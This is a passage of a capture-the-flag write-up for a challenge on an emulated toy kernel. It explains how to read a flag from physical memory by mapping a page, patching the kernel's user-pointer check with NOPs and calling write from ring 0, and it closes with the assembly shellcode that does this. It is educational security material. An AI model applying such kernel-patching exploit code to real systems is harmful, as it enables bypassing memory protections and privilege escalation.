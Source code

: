 ```
eax: 00000037
ebx: 00000000
ecx: 0804C020
edx: 00000080
Done! Type more code
Address where I'm gonna run your code: 0804E0A0
```

### Part 2

<img width="470" alt="Screenshot 2021-08-08 at 22 05 16" src="https://user-images.githubusercontent.com/62653826/128645671-e7daa091-1452-4f86-b7a0-24ba4f4ba451.png">

The other flag is in physical memory at 0x55550000, but not in kernel memory. 0x55550000 is not a 4 MiB aligned address, so we can't just make a virtual memory page map to 0x55550000, but we can map it to 0x55400000, and then offset by 0x150000. The issue is that the memory I/O qemu driver acts differently in user mode(ring 3) and kernel mode(ring 0). We need CPL/ring 0 to get the flag - that is, we need to read physical memory address 0x55550000 from CPL 0. One path would be to use our new access to kernel data to overwrite some functions with shellcode, but there is a much easier way to get this done.

Think - how can we get the kernel to read some data for us, without exploiting it much?

That's right - the write syscall. If we get the kernel to write out data mapped to physical address 0x55550000, it'll get read from ring 0, doing the job for us and printing the flag from stdout. Issue is, without remapping very important memory, the kernel's check for userland pointers will do us in the dust(it ensures that pointer >> 0x16 == 0x20, so the pointer must be around 0x8000000). However, it does this through running a function, and then a jz to a function that will deny the user. 

**Exploitation path**
* We can map a page to the needed physical memory
* Nop the function call(the jz is only 2 bytes), making the kernel unable to reject any write calls
*  Write the memory corresponding to 0x55550000 to fd 0. 

I decided to map 0x09000000 to 0x55400000, so reading address 0x09150000 will read the flag.
```assembly
mov eax, 13
int 0x80
mov esi, eax
mov dword ptr [esi], 0x0050d003
mov dword ptr [esi+4], 0x004000e7
mov dword ptr [esi+128], 0x020000e7
mov dword ptr [esi+144], 0x554000e7
mov eax, 16
int 0x80
mov ebx, eax
mov eax, 30
int 0x80
mov esi, 0x401a99
mov word ptr [esi], 0x9090
xor ebx, ebx
mov ecx, 0x9000000
add ecx, 0x150000
mov edx, 0x80
mov eax, 5
int 0x80
```
